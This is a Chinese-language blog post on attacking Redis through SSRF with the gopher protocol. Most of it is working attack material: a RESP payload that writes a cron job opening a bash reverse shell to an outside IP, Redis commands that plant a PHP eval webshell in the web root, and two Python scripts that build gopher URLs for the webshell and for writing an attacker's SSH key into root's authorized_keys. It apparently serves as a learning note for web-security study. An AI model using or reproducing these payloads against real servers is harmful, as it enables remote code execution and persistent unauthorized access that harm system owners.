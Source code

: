 ```yaml
---
title: "浅谈Redis与SSRF"
date: 2023-06-19
categories: 
  - "web"
tags: 
  - "web"
---
```


## 什么是Redis？

Redis是现在最受欢迎的NoSQL数据库之一，Redis是一个使用ANSI C编写的开源、包含多种数据结构、支持网络、基于内存、可选持久性的键值对存储数据库。

## RESP协议

RESP 协议是 redis 服务之间数据传输的通信协议，redis 客户端和 redis 服务端之间通信会采取 RESP 协议  
因此我们后续构造 payload 时也需要转换成 RESP 协议的格式。

RESP在Redis中用作请求 - 响应协议的方式如下：

1. 客户端将命令作为`Bulk Strings`的RESP数组发送到Redis服务器。

3. 服务器根据命令实现回复一种RESP类型。

RESP协议的格式如下：

```
*1
$8
flushall
*3
$3
set
$1
1
$64

*/1 * * * * bash -i >& /dev/tcp/192.168.230.132/1234 0>&1

*4
$6
config
$3
set
$3
dir
$16
/var/spool/cron/
*4
$6
config
$3
set
$10
dbfilename
$4
root
*1
$4
save
quit
```

- \*n 代表了一条命令的开始，n表示该条命令由n个字符串组成

- $n 表示了该字符串由n个字符组成

## gopher协议

当探测内网或执行命令时需要发送 **POST 请求**，我们可以利用 gopher 协议

协议格式

```
gopher://<host>:<port>/<gopher-path>
```

这里的gopher-path就是相当于要发送的数据包，也就是我们要构造的RESP协议

注意：gopher协议使用时，会吞噬掉gopher-path的第一个字符，通常用个下划线来填充这个字符

## 绝对路径写入webshell

应用条件：

- redis有root权限

- 知道网站的绝对路径

首先要构造redis命令

```
flushall   //用于清空整个redis服务器的所有数据（删除所有数据库的所有 key ）
set 1 '<?php eval($_GET["cmd"]);?>'   //设立一个键值对
config set dir /var/www/html    //指定本地数据库存放目录
config set dbfilename shell.php   //指定本地数据库文件名，默认值为 dump.rdb
save   
```

我们要将这条命令转化为RESP协议的格式再结合gopher协议达到写入shell的目的

贴一个转换脚本：

```
#!/usr/bin/env python
# -*-coding:utf-8-*-

import urllib
protocol="gopher://"  # 使用的协议 
ip=""
port=""   # 目标redis的端口号 
shell="\n\n<?php eval($_GET[\"cmd\"]);?>\n\n"
filename="shell.php"   # shell的名字 
path="/var/www/html"      # 写入的路径
passwd=""   # 如果有密码 则填入
# 我们的恶意命令 
cmd=["flushall",
     "set 1 {}".format(shell.replace(" ","${IFS}")),
     "config set dir {}".format(path),
     "config set dbfilename {}".format(filename),
     "save"
     ]
if passwd:
    cmd.insert(0,"AUTH {}".format(passwd))
payload=protocol+ip+":"+port+"/_"
def redis_format(arr):
    CRLF="\r\n"
    redis_arr = arr.split(" ")
    cmd=""
    cmd+="*"+str(len(redis_arr))
    for x in redis_arr:
        cmd+=CRLF+"$"+str(len((x.replace("${IFS}"," "))))+CRLF+x.replace("${IFS}"," ")
    cmd+=CRLF
    return cmd

if __name__=="__main__":
    for x in cmd:
        payload += urllib.quote(redis_format(x))
    print payload
    print urllib.quote("二次url编码后的结果:\n" + payload)
```

用这个脚本生成的话应该在最后加一个%0A作为语句的截断，不然就无法执行命令。

## Redis写入ssh公钥

条件：redis有root权限

原理：通过在目标机器上写入 ssh 公钥，然后便可以通过 ssh 免密码登录目标机器

首先要生成 ssh 公/私钥

执行这段命令

```
ssh-keygen -t rsa
```

会在 /root/.ssh/目录下生成ssh 公/私钥

我们想要构造的payload：

```
flushall
set 1 'id_rsa.pub 里的内容'
config set dir '/root/.ssh/'
config set dbfilename authorized_keys
save
```

利用以下脚本将payload转化为RESP的格式：

```
import urllib
protocol="gopher://"
ip=""
port=""
sshpublic_key = "\n\nid_rsa.pub 里的内容\n\n"
filename="authorized_keys"
path="/root/.ssh/"
passwd=""
cmd=["flushall",
     "set 1 {}".format(sshpublic_key.replace(" ","${IFS}")),
     "config set dir {}".format(path),
     "config set dbfilename {}".format(filename),
     "save"
     ]
if passwd:
    cmd.insert(0,"AUTH {}".format(passwd))
payload=protocol+ip+":"+port+"/_"
def redis_format(arr):
    CRLF="\r\n"
    redis_arr = arr.split(" ")
    cmd=""
    cmd+="*"+str(len(redis_arr))
    for x in redis_arr:
        cmd+=CRLF+"$"+str(len((x.replace("${IFS}"," "))))+CRLF+x.replace("${IFS}"," ")
    cmd+=CRLF
    return cmd

if __name__=="__main__":
    for x in cmd:
        payload += urllib.quote(redis_format(x))
    print payload
    print urllib.quote("二次url编码后的结果:\n" + payload)
```

配合gopher访问一下，此时要注意靶机的ssh服务一定要是开启的状态。

写入就可以通过ssh连接靶机获得shell权限

### ssh公钥和私钥

如果要使用 **ssh 连接服务，首先我们需要生成私钥和公钥**，私钥留在本地，公钥上传到服务器，这样在连接时，才可以做认证服务。 初始时，对于 linux 系统上的每一个用户，对应的 home 目录下都有一个 .ssh 隐藏目录 ，就是用来存放生成的秘钥和私钥的 如果成功的话，之后连接，就不必使用密码方式。

**_参考链接_**

- [SSRF + Redis 利用方式学习笔记 - 1ndex- - 博客园 (cnblogs.com)](https://www.cnblogs.com/wjrblogs/p/14456190.html)

- [浅析Redis中SSRF的利用 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/5665#toc-17)
